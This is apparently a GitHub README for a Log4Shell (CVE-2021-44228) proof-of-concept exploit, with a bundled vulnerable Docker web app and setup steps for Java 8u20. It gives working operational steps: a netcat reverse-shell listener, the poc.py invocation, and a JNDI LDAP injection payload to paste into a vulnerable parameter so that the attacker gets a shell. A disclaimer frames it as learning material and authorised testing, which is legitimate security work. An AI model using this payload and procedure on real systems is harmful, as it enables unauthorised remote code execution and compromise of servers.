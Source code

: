 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Kudos to kozmer for the POC. I just added some niceties for demoing purposes and added the Waratek agent. <br><br>
Steps to follow TBA:<br><br>


A video showing the exploitation process
----------------------------------------

Vuln Web App:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (Old script):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (Old script):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


Proof-of-concept (POC)
----------------------

As a PoC we have created a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.


